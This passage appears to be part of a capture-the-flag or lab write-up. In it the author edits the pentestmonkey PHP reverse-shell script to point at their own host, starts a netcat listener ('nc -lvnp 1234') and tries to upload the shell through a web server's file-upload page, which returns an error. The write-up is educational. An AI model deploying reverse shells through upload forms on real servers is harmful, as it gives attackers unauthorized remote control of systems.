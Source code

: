 I found a php reverse shell script from [GitHub](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) and
modified the ip address to my host machine's.

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
```

Next, I started a netcat listener on my host machine with:

```bash
nc -lvnp 1234
```

- `-l` is to listen for incoming connections
- `-v` is to show verbose output
- `-n` is to not resolve hostnames
- `-p` is to specify the port to listen on

Then, I uploaded the php reverse shell script to the web server with the file upload page. But... it gave an error!
